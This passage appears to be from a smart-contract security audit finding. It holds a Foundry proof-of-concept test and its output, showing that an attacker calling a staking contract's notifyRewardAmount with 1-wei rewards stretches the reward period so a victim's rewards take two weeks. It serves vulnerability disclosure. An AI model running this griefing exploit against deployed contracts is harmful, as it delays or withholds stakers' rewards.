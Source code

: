 ```Solidity
        uint256[] memory rewards = new uint256[](1);
        rewards[0] = 1; // 1 wei
        staking.notifyRewardAmount(tokens, rewards);
        vm.stopPrank();

        // fast forward to the end of the original duration
        vm.warp(startTime + duration);
        uint256 victimSecondReward = staking.earned(victim, usdc);
        balanceBefore = IERC20(usdc).balanceOf(victim);
        staking.claimRewards();
        balanceAfter = IERC20(usdc).balanceOf(victim);
        console.log("victim second half reward: ", victimSecondReward);

        // attacker grief again
        vm.startPrank(attacker);
        staking.notifyRewardAmount(tokens, rewards);
        vm.stopPrank();

        // fast forward to duration + 50% duration
        vm.warp(startTime + duration + duration / 2);

        // victim desperate to claim their reward
        vm.startPrank(victim);
        uint256 victimThirdReward = staking.earned(victim, usdc);
        balanceBefore = IERC20(usdc).balanceOf(victim);
        staking.claimRewards();
        balanceAfter = IERC20(usdc).balanceOf(victim);
        console.log("victim prolonged duration half reward: ", victimThirdReward);

        vm.warp(startTime + duration * 2);
        uint256 victimFourthReward = staking.earned(victim, usdc);
        balanceBefore = IERC20(usdc).balanceOf(victim);
        staking.claimRewards();
        balanceAfter = IERC20(usdc).balanceOf(victim);
        console.log("victim staking total duration became ", duration * 2, "which is 2 weeks");
        console.log("victim prolonged duration second half reward: ", victimFourthReward);
        console.log("total victim reward: ", IERC20(usdc).balanceOf(victim));
    }
```
6. then run `forge t --fork-url base --mt test_PoC_callNotifyRewardAmountIncreaseDuration -vv` showing that the victim would get the full reward in 2 weeks because of attacker exploit:

```bash
[PASS] test_PoC_callNotifyRewardAmountIncreaseDuration() (gas: 531828)
Logs:
  victim first half reward:  49896000
  victim second half reward:  24796000
  victim prolonged duration half reward:  37194000
  victim staking total duration became  1209600 which is 2 weeks
  victim prolonged duration second half reward:  12398000
  total victim reward:  99488000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 11.07s (1.51s CPU time)

Ran 1 test suite in 12.93s (11.07s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
